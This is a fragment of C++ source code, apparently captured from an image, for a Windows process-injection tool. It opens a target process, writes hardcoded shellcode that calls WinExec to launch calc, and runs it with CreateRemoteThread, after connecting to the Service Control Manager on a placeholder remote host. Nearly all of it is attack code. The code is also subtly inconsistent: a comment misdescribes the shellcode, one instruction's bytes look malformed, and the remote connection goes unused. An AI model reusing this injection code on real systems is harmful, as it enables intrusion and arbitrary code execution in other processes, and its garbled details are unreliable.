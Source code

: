 ```cpp
    HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteMemory, NULL, 0, NULL);
    if (hRemoteThread == NULL) {
        std::cerr << "Failed to create remote thread." << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        return false;
    }

    // Wait for the remote thread to finish
    WaitForSingleObject(hRemoteThread, INFINITE);
    CloseHandle(hRemoteThread);

    // Free the allocated memory
    VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);

    return true;
}

int main() {
    const wchar_t* targetHost = L"\\TARGET-HOST"; // Change this to the target hostname
    DWORD targetProcessId = 1234; // Change this to the target process ID

    // Step 1: Open a connection to the SCM on the target machine
    SC_HANDLE hSCManager = OpenSCManagerW(targetHost, NULL, SC_MANAGER_CONNECT);
    if (hSCManager == NULL) {
        std::cerr << "Failed to connect to the Service Control Manager on the target machine." << std::endl;
        return 1;
    }

    std::cout << "Connected to the Service Control Manager on " << targetHost << std::endl;

    // Step 2: Open a handle to the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
    if (hProcess == NULL) {
        std::cerr << "Failed to open the target process." << std::endl;
        CloseServiceHandle(hSCManager);
        return 1;
    }

    std::cout << "Opened handle to process ID " << targetProcessId << std::endl;

    // Step 3: Define a simple payload (example: MessageBox shellcode)
    const char payload[] = 
        "\x90\x90\x90" // NOPs for padding
        "\x31\xc0"     // xor eax, eax
        "\x50"         // push eax
        "\x68\x63\x61\x6c\x63" // push "calc"
        "\x8b\xc4"     // mov eax, esp
        "\x50"         // push eax
        "\xbb\xad\x23\x86\x7c" // mov ebx, 7c8623ad (address of WinExec)
        "\xff\xd3";    // call ebx

    SIZE_T payloadSize = sizeof(payload);

    // Step 4: Inject the payload into the target process
    if (!InjectPayload(hProcess, (LPVOID)payload, payloadSize)) {
        std::cerr << "Payload injection failed." << std::endl;
        CloseHandle(hProcess);
        CloseServiceHandle(hSCManager);
        return 1;
    }

```